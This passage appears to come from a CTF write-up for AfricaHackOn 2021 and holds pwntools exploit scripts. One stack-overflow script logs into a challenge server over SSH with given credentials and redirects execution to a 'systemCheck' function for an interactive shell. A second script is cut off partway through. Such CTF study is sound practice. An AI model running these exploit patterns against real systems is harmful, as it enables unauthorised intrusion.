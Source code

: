 ```Ctrl+A``` to select all ,```Ctrl+Shift+L``` to spawn the cursors, then move them to the beginning
from pwn import *

#io = process("./chall")
sh = ssh("namecheck", "3.21.21.162", 22, password="guest")
io = sh.shell("./namecheck")

elf = ELF("./chall")

def main():
	payload = b"A"*36
	payload += p32(elf.sym.systemCheck)
	payload += b"A"*(274-len(payload))
	io.sendline(payload)
	io.interactive()

if __name__ == "__main__":
	main()
```



### Iamfree 250pts

![image](/posts/2021-11-09_africahackon-2021-ctf-finals/images/33.png#layoutTextWidth)

```python3
#!/usr/bin/python3
#author: @BinaryChunk
from pwn import *

#io = process("./chall")
USER = "iamfree"
PASS = "guest"
PORT = 22
IP = "3.21.21.162"

shell = ssh(user=USER, host=IP, port=PORT, password=PASS)
io = shell.run("./iamfree")

def main():
	"""payload = p32(0x46524545)
	payload += p32(0x71756565)
```